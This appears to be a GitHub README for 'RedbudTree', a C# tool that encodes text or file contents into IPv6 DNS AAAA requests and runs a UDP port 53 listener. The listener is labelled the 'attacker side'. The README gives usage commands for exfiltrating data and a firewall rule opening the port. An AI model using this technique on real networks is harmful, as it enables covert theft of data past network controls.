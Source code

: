 # RedbudTree
DNS IPv6 Request Listener (UDP Port 53) for Detecting Exfiltration DATA via IPv6 DNS AAAA Record Requests

i will Publish this C# Code and article for this tool soon

step 1:         
/// for using "Listener Mode" UDP Port 53 should be opened before using this tool.         
/// windows command for opening UDP port 53 is :  
/// netsh advfirewall firewall add rule name="UDP 53" dir=in action=allow protocol=UDP localport=53

Note: step 1 is ((Dumping DATA via IPv6 Requests , attacker side))

step 2:         
/// Compiling C# Code.         
/// windows command for this is :  
/// csc.exe /out:RedbudTree.exe  RedbudTree.cs 


step 3:         
/// RedbudTree.exe Help         
/// windows command for this is :  

/// Syntax 1: Creating Exfiltration DATA via IPv6 Address and Nslookup.         
/// Syntax 1: RedbudTree.exe "AAAA" "Text"  
/// Example1: RedbudTree.exe AAAA "this is my test" 

/// Syntax 2: Creating Exfiltration DATA via IPv6 Address and Nslookup by Text Files.         
/// Syntax 2: RedbudTree.exe "AAAA" "FILE" "TextFile.txt"  
/// Example2: RedbudTree.exe AAAA FILE "TextFile.txt" 

/// Syntax 3: RedbudTree with Listening Mode          
/// Syntax 3: RedbudTree.exe  
Note: syntax 3 is ((Dumping DATA via IPv6 Requests , attacker side))


